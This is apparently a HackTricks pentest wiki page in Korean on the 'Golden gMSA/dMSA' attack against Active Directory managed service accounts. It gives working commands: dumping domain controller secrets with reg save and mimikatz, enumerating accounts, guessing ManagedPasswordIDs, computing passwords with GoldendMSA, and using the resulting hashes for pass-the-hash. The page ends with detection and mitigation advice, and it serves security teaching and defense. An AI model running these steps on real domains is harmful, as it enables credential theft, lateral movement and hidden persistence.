 # Golden gMSA/dMSA Attack (Managed Service Account 비밀번호의 오프라인 파생)

{{#include ../../banners/hacktricks-training.md}}

## 개요

Windows Managed Service Accounts (MSA)는 비밀번호를 수동으로 관리할 필요 없이 서비스를 실행하도록 설계된 특별한 주체입니다.
두 가지 주요 유형이 있습니다:

1. **gMSA** – 그룹 Managed Service Account – `msDS-GroupMSAMembership` 속성에 권한이 부여된 여러 호스트에서 사용할 수 있습니다.
2. **dMSA** – 위임된 Managed Service Account – gMSA의 (미리보기) 후계자로, 동일한 암호화에 의존하지만 더 세분화된 위임 시나리오를 허용합니다.

두 변형 모두 **비밀번호는 각 도메인 컨트롤러(DC)에 저장되지 않습니다**. 대신 모든 DC는 다음 세 가지 입력값으로부터 현재 비밀번호를 **즉석에서 파생**할 수 있습니다:

* 포리스트 전체의 **KDS Root Key** (`KRBTGT\KDS`) – 무작위로 생성된 GUID 이름의 비밀로, `CN=Master Root Keys,CN=Group Key Distribution Service, CN=Services, CN=Configuration, …` 컨테이너 아래의 모든 DC에 복제됩니다.
* 대상 계정의 **SID**.
* `msDS-ManagedPasswordId` 속성에서 찾을 수 있는 계정별 **ManagedPasswordID** (GUID).

파생 과정은: `AES256_HMAC( KDSRootKey , SID || ManagedPasswordID )` → 240 바이트 블롭이 최종적으로 **base64 인코딩**되어 `msDS-ManagedPassword` 속성에 저장됩니다.
정상적인 비밀번호 사용 중에는 Kerberos 트래픽이나 도메인 상호작용이 필요하지 않으며, 멤버 호스트는 세 가지 입력값을 알고 있는 한 로컬에서 비밀번호를 파생할 수 있습니다.

## Golden gMSA / Golden dMSA 공격

공격자가 모든 세 가지 입력값을 **오프라인**으로 얻을 수 있다면, **도메인 내의 모든 gMSA/dMSA에 대한 유효한 현재 및 미래 비밀번호**를 계산할 수 있으며, 다시 DC에 접근하지 않고도 다음을 우회할 수 있습니다:

* Kerberos 사전 인증 / 티켓 요청 로그
* LDAP 읽기 감사
* 비밀번호 변경 간격 (사전 계산 가능)

이는 서비스 계정에 대한 *Golden Ticket*에 비유할 수 있습니다.

### 전제 조건

1. **하나의 DC** (또는 Enterprise Admin)의 **포리스트 수준 손상**. `SYSTEM` 접근 권한이면 충분합니다.
2. 서비스 계정을 열거할 수 있는 능력 (LDAP 읽기 / RID 무차별 대입).
3. [`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) 또는 동등한 코드를 실행할 수 있는 .NET ≥ 4.7.2 x64 워크스테이션.

### 1단계 – KDS Root Key 추출

모든 DC에서 덤프 (볼륨 섀도 복사 / 원시 SAM+SECURITY 하이브 또는 원격 비밀):
```cmd
reg save HKLM\SECURITY security.hive
reg save HKLM\SYSTEM  system.hive

# With mimikatz on the DC / offline
mimikatz # lsadump::secrets
mimikatz # lsadump::trust /patch   # shows KDS root keys too
```
`RootKey` (GUID 이름)으로 레이블된 base64 문자열은 이후 단계에서 필요합니다.

### Phase 2 – gMSA/dMSA 객체 열거

최소한 `sAMAccountName`, `objectSid` 및 `msDS-ManagedPasswordId`를 검색합니다:
```powershell
# Authenticated or anonymous depending on ACLs
Get-ADServiceAccount -Filter * -Properties msDS-ManagedPasswordId | \
Select sAMAccountName,objectSid,msDS-ManagedPasswordId
```
[`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA)는 헬퍼 모드를 구현합니다:
```powershell
# LDAP enumeration (kerberos / simple bind)
GoldendMSA.exe info -d example.local -m ldap

# RID brute force if anonymous binds are blocked
GoldendMSA.exe info -d example.local -m brute -r 5000 -u jdoe -p P@ssw0rd
```
### Phase 3 – ManagedPasswordID 추측 / 발견 (누락 시)

일부 배포에서는 `msDS-ManagedPasswordId`를 ACL 보호 읽기에서 *제거*합니다.  
GUID가 128비트이기 때문에 단순한 무차별 대입은 불가능하지만:

1. 첫 번째 **32비트 = 계정 생성의 Unix epoch 시간** (분 단위 해상도).
2. 그 뒤에 96비트의 무작위 비트가 이어집니다.

따라서 **계정당 좁은 단어 목록** (± 몇 시간)이 현실적입니다.
```powershell
GoldendMSA.exe wordlist -s <SID> -d example.local -f example.local -k <KDSKeyGUID>
```
도구는 후보 비밀번호를 계산하고 그들의 base64 blob을 실제 `msDS-ManagedPassword` 속성과 비교합니다 – 일치하면 올바른 GUID가 드러납니다.

### Phase 4 – 오프라인 비밀번호 계산 및 변환

ManagedPasswordID가 알려지면, 유효한 비밀번호는 한 명령어 거리입니다:
```powershell
# derive base64 password
GoldendMSA.exe compute -s <SID> -k <KDSRootKey> -d example.local -m <ManagedPasswordID>

# convert to NTLM / AES keys for pass-the-hash / pass-the-ticket
GoldendMSA.exe convert -d example.local -u svc_web$ -p <Base64Pwd>
```
결과 해시는 **mimikatz** (`sekurlsa::pth`) 또는 **Rubeus**를 사용하여 Kerberos 남용에 주입될 수 있으며, 이는 은밀한 **측면 이동** 및 **지속성**을 가능하게 합니다.

## 탐지 및 완화

* **DC 백업 및 레지스트리 하이브 읽기** 기능을 Tier-0 관리자에게 제한합니다.
* DC에서 **디렉터리 서비스 복원 모드(DSRM)** 또는 **볼륨 섀도 복사** 생성을 모니터링합니다.
* 서비스 계정의 `CN=Master Root Keys,…` 및 `userAccountControl` 플래그에 대한 읽기/변경을 감사합니다.
* 비정상적인 **base64 비밀번호 쓰기** 또는 호스트 간의 갑작스러운 서비스 비밀번호 재사용을 감지합니다.
* Tier-0 격리가 불가능한 경우, 높은 권한의 gMSA를 **클래식 서비스 계정**으로 변환하고 정기적으로 무작위 회전을 고려합니다.

## 도구

* [`Semperis/GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) – 이 페이지에서 사용된 참조 구현.
* [`mimikatz`](https://github.com/gentilkiwi/mimikatz) – `lsadump::secrets`, `sekurlsa::pth`, `kerberos::ptt`.
* [`Rubeus`](https://github.com/GhostPack/Rubeus) – 파스 더 티켓(pass-the-ticket)에서 파생된 AES 키 사용.

## 참고 문헌

- [Golden dMSA – 위임된 관리 서비스 계정에 대한 인증 우회](https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/)
- [Semperis/GoldenDMSA GitHub 리포지토리](https://github.com/Semperis/GoldenDMSA)
- [Improsec – Golden gMSA 신뢰 공격](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-5-golden-gmsa-trust-attack-from-child-to-parent)

{{#include ../../banners/hacktricks-training.md}}
